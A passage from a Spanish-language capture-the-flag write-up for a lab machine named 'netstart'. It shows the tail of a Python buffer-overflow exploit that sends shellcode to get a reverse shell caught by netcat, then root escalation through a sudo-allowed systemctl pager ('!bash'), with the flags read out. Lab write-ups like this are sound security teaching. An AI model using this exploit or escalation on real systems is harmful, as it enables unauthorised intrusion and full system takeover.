shellcode += b"\x4a\x54\x01\x10\x91\xdd\xa2\xbf\xb0\xdd\xa4"
shellcode += b"\xbf\xec\xd7\xa5\x19\x20\xe7\x9f\x19\x22\x05"
shellcode += b"\xc7\x5d\x43"
log.info("Enviando shellcode")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.100.59", 2371))
shell.send(junk + jmpesp + nops + shellcode + b"\n\r")
data = shell.recv(1024)
shell.close()
log.success("Revisa tu listener")
Lo ejecutamos nuevamente y ahora si tenemos una shell de linux, conseguimos el usuario
❯ python3 exploit.py
[*] Enviando shellcode
[+] Revisa tu listener
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.59
export HOME=/home/fox
script /dev/null -c bash
Script started, file is /dev/null
fox@netstart:~/.wine/drive_c/users/fox$ id
uid=1001(fox) gid=1001(fox) groups=1001(fox)
fox@netstart:~/.wine/drive_c/users/fox$ hostname -I
192.168.100.59
fox@netstart:~/.wine/drive_c/users/fox$ cat ~/local.txt
75894c2b3d5c3b78372af63694cdc659
fox@netstart:~/.wine/drive_c/users/fox$
Tenemos el binario systemctl como privilegio de sudoers, esto es una escalada facil
fox@netstart:~$ sudo -l
Matching Defaults entries for fox on netstart:
env_reset, mail_badpass,
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User fox may run the following commands on netstart:
(root) NOPASSWD: /usr/bin/systemctl
fox@netstart:~$
Al ejecutar systemctl entra en un tipo de modo pagginate, escribimos !bash y somos root
fox@netstart:~$ sudo systemctl
UNIT LOAD ACTIVE SUB DESCRIPTION
proc-sys-fs-binfmt_misc.automount loaded active waiting Arbitrary Executable F
sys-devices-pci0000:00-0000:00:11.0-0000:02:01.0-net-ens33.device loaded active
sys-devices-pci0000:00-0000:00:11.0-0000:02:02.0-ata3-host2-target2:0:0-2:0:0:0-
sys-devices-pci0000:00-0000:00:11.0-0000:02:02.0-ata3-host2-target2:0:0-2:0:0:0-
sys-devices-pci0000:00-0000:00:11.0-0000:02:02.0-ata3-host2-target2:0:0-2:0:0:0-
sys-devices-pci0000:00-0000:00:11.0-0000:02:02.0-ata3-host2-target2:0:0-2:0:0:0-
sys-devices-platform-serial8250-tty-ttyS0.device loaded active plugged /sys/de
sys-devices-platform-serial8250-tty-ttyS1.device loaded active plugged /sys/de
sys-devices-platform-serial8250-tty-ttyS2.device loaded active plugged /sys/de
sys-devices-platform-serial8250-tty-ttyS3.device loaded active plugged /sys/de
sys-subsystem-net-devices-ens33.device loaded active plugged 82545EM Gigabit E
-.mount loaded active mounted /
dev-hugepages.mount loaded active mounted Huge Pages File System
dev-mqueue.mount loaded active mounted POSIX Message Queue File
run-user-1001.mount loaded active mounted /run/user/1001
sys-kernel-debug.mount loaded active mounted Kernel Debug File System
cups.path loaded active running CUPS Scheduler
systemd-ask-password-console.path loaded active waiting Dispatch Password Requ
systemd-ask-password-wall.path loaded active waiting Forward Password Requests
init.scope loaded active running System and Service Manage
session-c1.scope loaded active running Session c1 of user fox
apparmor.service loaded active exited Load AppArmor profiles
lines 1-23!bash
root@netstart:~# id
uid=0(root) gid=0(root) groups=0(root)
root@netstart:~# hostname -I
192.168.100.59
root@netstart:~# cat /root/proof.txt
f632f5eaffa5607c961e22ba40291ab7
root@netstart:~#